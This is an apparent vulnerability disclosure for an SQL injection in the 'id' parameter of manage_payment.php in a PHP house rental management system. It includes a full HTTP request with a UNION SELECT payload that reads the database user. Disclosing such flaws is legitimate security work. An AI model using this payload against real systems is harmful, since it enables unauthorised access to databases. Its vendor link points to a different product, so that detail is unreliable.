





# Best house rental management system project in php manage_payment.php SQL Injection vulnerability

Exploit Title: Best house rental management system project in php manage_payment.php SQL Injection vulnerability  
Exploit Author: webraybtl@webray.com.cn inc  
Vendor Homepage: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html  
Software Link: https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+  
Version: Best house rental management system project in php v1.0

## Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability. Best house rental management system project in php manage_payment.php does not filter the content correctly at the "id" parameter, resulting in the generation of SQL injection.

#### Payload used:

```plaintext
GET /manage_payment.php?id=0+UNION+SELECT+null,null,null,user(),null+--+ HTTP/1.1
Host: 192.168.56.128:8080
Accept-Encoding: gzip, deflate
Priority: u=0
Referer: http://192.168.56.128:8080/index.php?page=invoices
Cookie: PHPSESSID=l9bepm47dqojg3l0o826l4kcd0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest
```

#### Proof of Concept

1. Visit the homepage, click to edit the entry, and after capturing the package, find that the file used is manage_payment.php.

​​

2. Upon reviewing the source code, it was discovered that the id parameter was directly concatenated into the SQL statement

​​

3. Construct SQL injection, query database user name, and successfully reproduce SQL injection vulnerabilities.

payload：`0+UNION+SELECT+null,null,null,user(),null+--+`​

​​

​​

​​
